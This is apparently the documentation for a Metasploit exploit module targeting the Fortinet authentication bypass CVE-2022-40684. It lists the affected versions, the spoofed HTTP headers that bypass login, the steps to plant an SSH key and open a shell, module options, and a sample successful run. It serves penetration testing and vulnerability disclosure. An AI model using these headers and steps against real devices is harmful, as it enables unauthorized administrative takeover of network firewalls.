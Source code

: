 ## Vulnerable Application

An authentication bypass using an alternate path or channel vulnerability [CWE-288] in FortiOS (firewall)
FortiProxy (web proxy), and FortiSwitch Manager products. The vulnerability allows remote, unauthenticated user to
bypass authentication and gain access to the administrative interface of these products by using a specially
crafted http/s request.

On October 3, 2022, Fortinet released a software update that addressed this vulnerability (CVE-2022-40684).

The following products are affected:

- FortiOS 7.0.0 to 7.0.6
- FortiOS 7.2.0 to 7.2.1
- FortiProxy 7.0.0 to 7.0.6
- FortiProxy 7.2.0
- FortiSwitchManager 7.0.0
- FortiSwitchManager 7.2.0

### Exploitation

This module will abuse the authentication bypass vulnerability in the affected products to add a new ssh public
key in the authorized keys of the target user (if no user is provied it'll try to detect it) and then connect
over ssh to the target system (if no ssh private key is provided this module will automatically generate one).

To do so it will add the following header in all HTTP requests:
```
User-Agent: Report Runner
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
```

This module doesn't intend to overwrite the ssh keys already configured in the target system, it intends to
**add** a new key in the last slot, if it is available or overwriting it.

Even though the `check` detects the system as vulnerable, it performs a further validation if the ssh port is open and will fail otherwise.

After a successful exploitation it will remove the just added key as a clean-up process. We assume it is the last key.

## Verification Steps
Confirm that functionality works:

1. Start `msfconsole`
2. `use exploit/linux/http/fortinet_authentication_bypass_cve_2022_40684`
3. set `RHOSTS`
4. set `HttpTrace true` (optional)
4. set `SSH_DEBUG true` (optional)
4. set `VERBOSE true` (optional)
4. `exploit`
5. Confirm you have now a cmd session

## Options

### TARGETURI (required)

The path to the Fotigate API (Default: `/`).

### USERNAME (required)

The username of the targed user (Default: `admin`).

### PRIVATE_KEY (optional)

The path for the SSH private key to be used to authenticate. It must be in PEM format.

Example how to generate it:
```
ssh-keygen -t rsa -m PEM -f `openssl rand -hex 8`
```

### KEY_PASS (optional)

The password for a given SSH private key (if it has one).

### SSH_RPORT (required)

The SSH port to connnect to (Default: `22`)

## Scenarios

### vulnerable application version and OS
This module has been tested successfully on FortiGate v7.2.0.

```
msf6 exploit(linux/http/fortinet_authentication_bypass_cve_2022_40684) > exploit 

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking XXX.XXX.XXX.XXX:443
[+] The target appears to be vulnerable. Target seems vulnerable
[*] Executing exploit on Interactive SSH
[*] Establishing SSH connection
[*] SSH session 1 opened (172.25.226.18:38791 -> XXX.XXX.XXX.XXX:22) at 2022-10-15 04:00:41 +0200

FW01 #  get sys status
Version: FortiGate-100F v7.2.0,build1157,220331 (GA.F)
Firmware Signature: certified 
```
